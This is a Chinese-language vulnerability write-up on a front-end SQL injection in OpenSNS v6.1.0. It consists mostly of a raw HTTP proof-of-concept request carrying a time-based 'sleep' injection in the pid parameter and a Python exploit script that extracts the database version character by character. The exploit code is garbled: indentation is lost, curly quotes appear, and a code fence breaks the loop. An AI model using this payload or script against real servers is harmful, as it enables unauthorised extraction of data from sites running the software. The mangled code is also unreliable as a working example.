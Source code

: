 ```yaml
---
title: "OpenSNS v6.1.0 前台sql注入"
id: zhfly3060
---
```


# OpenSNS v6.1.0 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

OpenSNS v6.1.0

## 三、复现过程

#### vul url

> [http://0-sec.org/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html](https://www.t00ls.net/)

![image](../img/f6bf18ec9f01f5ff92eddcb59607417c.png)

#### poc

```
POST /index.php?s=%2Fhome%2Faddons%2F_addons%2Fchina_city%2F_controller%2Fchina_city%2F_action%2Fgetcity.html HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 116
Accept: */*
Cookie: 
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.95.131
Referer: http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/ucenter/config/index.html
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip `cid=0&pid%5B0%5D=%3D%28select%2Afrom%28select%2Bsleep%283%29union%2F%2A%2A%2Fselect%2B1%29a%29and+3+in+&pid%5B1%5D=3` 
```

![image](../img/cc14f7e9c7e5ac958e39605b60b8de1e.png)

![image](../img/eac1c8aad7325e3f412c8a75615ddebd.png)

Vulnerability file

Addons/ChinaCity/Controller/ChinaCityController.class.php:50

![image](../img/a8ceeefabcb5159e1bee2da3da3c9fd8.png)

ThinkPHP/Library/Think/Db.class.php:772

![image](../img/9b6762ec6bafd4373786f3dbe886e953.png)

![image](../img/83ebac464da6dd7ba1f7c079eaa69c1c.png)

#### exp

```
import requests
from requests import exceptions

url=“[http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html](http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html)”

header={‘X-Requested-With’:‘XMLHttpRequest’}

# proxies={‘http’:‘127.0.0.1:8080’}

flag=’’

for i in range(1,50):

for j in range(32,128):

try:

data={

‘cid’:0,

‘pid[0]’:"=(select if(ord(substr((select version()),{},1))={},sleep(10),0))AND 3 IN  ".format(i,j),

‘pid[1]’:3

}

# print data[‘pid[0]’]

r=requests.post(url,data=data,headers=header,timeout=5)

```
 except exceptions.Timeout :
        flag+=chr(j)
        print flag 
``` 
```

![image](../img/81435cf8c246b2c712644c54b0646450.png)